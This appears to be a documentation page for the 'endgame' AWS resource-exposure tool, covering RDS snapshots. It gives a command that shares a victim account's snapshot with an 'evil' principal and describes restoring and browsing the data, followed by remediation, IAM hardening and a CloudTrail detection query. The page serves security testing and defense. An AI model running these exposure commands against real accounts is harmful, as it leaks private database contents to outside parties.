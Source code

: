 # RDS Snapshots

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service rds --name test-resource-exposure
```


* To view a list of the AWS Accounts that have access to the RDS DB Snapshot, run the following command from the victim account:

```bash
aws rds describe-db-snapshot-attributes \
    --db-snapshot-identifier test-resource-exposure
```


## Example

* Observe that the account ID of the evil principal (`999988887777`) is listed alongside the AttributeName called `restore`. This means that the evil account ID is able to restore the snapshot of the RDS database in their own account.

```json
{
    "DBSnapshotAttributesResult": {
        "DBSnapshotIdentifier": "test-resource-exposure",
        "DBSnapshotAttributes": [
            {
                "AttributeName": "restore",
                "AttributeValues": [
                    "999988887777"
                ]
            }
        ]
    }
}
```

## Exploitation

After the RDS snapshot is public or shared with the rogue user account, an attacker can then:
* [copy the snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_CopySnapshot.html#USER_CopyDBSnapshot)
* [Restore a DB Instance from the DB Snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_Tutorials.RestoringFromSnapshot.html)
* Browse the contents of the database, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that RDS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the RDS Snapshots.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your RDS Snapshots**: Tightly control access to the following IAM actions:
  - [rds:DescribeDbClusterSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshotAttributes.html): _Grants permission to return a list of DB cluster snapshot attribute names and values for a manual DB cluster snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbClusterSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshots.html): _Grants permission to return information about DB cluster snapshots._
  - [rds:DescribeDbSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshotAttributes.html): _Grants permission to return a list of DB snapshot attribute names and values for a manual DB snapshot. This includes information on which AWS Accounts have access to the snapshot._
  - [rds:DescribeDbSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshots.html): _Grants permission to return information about DB snapshots_
  - [rds:ModifyDBSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB snapshot. This includes the ability to share snapshots with other AWS Accounts._
  - [rds:ModifyDBClusterSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBClusterSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB cluster snapshot. This includes the ability to share snapshots with other AWS Accounts._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='rds.amazonaws.com' AND (eventName='ModifyDBSnapshotAttribute' or eventName='ModifyDBClusterSnapshotAttribute' and requestParameters.attributeName='restore')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws rds modify-db-cluster-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-cluster-snapshot-attribute.html)
- [aws rds modify-db-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-snapshot-attribute.html)
- [aws rds describe-db-snapshot-attributes](https://docs.aws.amazon.com/cli/latest/reference/rds/describe-db-snapshot-attributes.html)
